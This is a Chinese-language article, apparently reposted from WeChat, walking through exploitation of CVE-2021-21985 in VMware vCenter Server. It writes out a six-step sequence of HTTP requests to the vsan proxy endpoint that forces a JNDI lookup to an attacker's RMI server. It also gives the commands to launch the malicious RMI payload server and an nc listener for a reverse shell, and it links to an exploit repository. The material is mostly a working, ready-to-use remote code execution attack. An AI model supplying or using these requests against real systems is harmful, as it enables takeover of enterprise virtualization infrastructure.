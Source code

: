 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Zz7tfzePvWYRMCFwJl8unA)

        VMware vCenter Server 是 VMware 虚拟化管理平台，广泛的应用于企业私有云内网中。通过使用 vCenter，管理员可以轻松的管理上百台虚拟化环境，同时也意味着当其被攻击者控制后会造成私有云大量虚拟化环境将被攻击者控制。

        可以通过 443 访问 vCenter Server 的攻击者可以直接通过请求在目标主机上执行任意代码，并接管目标主机。攻击复杂度低，所需的条件少，不需要用户交互。

漏洞利用
====

0x01 漏洞点
--------

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1rMN6joWZJovS4NXuXyEqteKI3aC3fYdCgLYveq8XJWT8iaL5mAjOtbbGQ95hxplL1zGPADkoyj0A/640?wx_fmt=png)

分析可见：

https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985?referrer=home#rapid7-analysis

0x02 漏洞利用
---------

        对 beans 对象进行构造，实现 rce。

列表：

```
localizedMessageBundle
vsanWorkerThreadFactory
vsanThreadPoolImpl
vsanServiceBundleActivator
vsanServiceFactory
vsanProviderUtils_setVmodlHelper
vsanProviderUtils_setVsanServiceFactory
vsanQueryUtil_setDataService
vsanComponentsProviderImpl
capabilityPropertyProviderImpl
pbmDataProviderImpl
vsanCapabilityCacheManager
vsanCapabilityUtils_setVsanCapabilityCacheManager
vsanUtils_setMessageBundle
vsanFormatUtils_setUserSessionService
```

由于 Vsphere UI 使用的 tomcat 中间件，可以通过 jndi rmi bypass

https://github.com/welk1n/JNDI-Injection-Bypass/blob/master/src/main/java/payloads/EvilRMIServer.java

远程执行命令

```
Step1
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetObject
{"methodInput":[null]}


Step2
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setStaticMethod
{"methodInput":["javax.naming.InitialContext.doLookup"]}

Step3
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetMethod
{"methodInput":["doLookup"]}

Step4 
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setArguments
{"methodInput":[["rmi://attip:1097/ExecByEL"]]}

Step5
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/prepare
{"methodInput":[]}

Step6
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/invoke
{"methodInput":[]}
```

使用方法
----

1.  启动 rmi 服务 java -cp JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer attip 
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1rMN6joWZJovS4NXuXyEqt3wpOZicYicgicwK7q1nQnGFoEic5H1r4gEAgeH01EYf2kfy53gjR6O4NicQ/640?wx_fmt=png)
    
2.  启动 reverse shell 侦听
    

```
nc -lvvp 5555
```

3.  执行以上 payload，得到反向 shell 
    

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1rMN6joWZJovS4NXuXyEqtFqicOmuNlhUUISiaWsQW60XXJzj64Op0Ipf6ibIicbRGrtQuAwQ00dw3DA/640?wx_fmt=png)

项目地址：

https://github.com/xnianq/cve-2021-21985_exp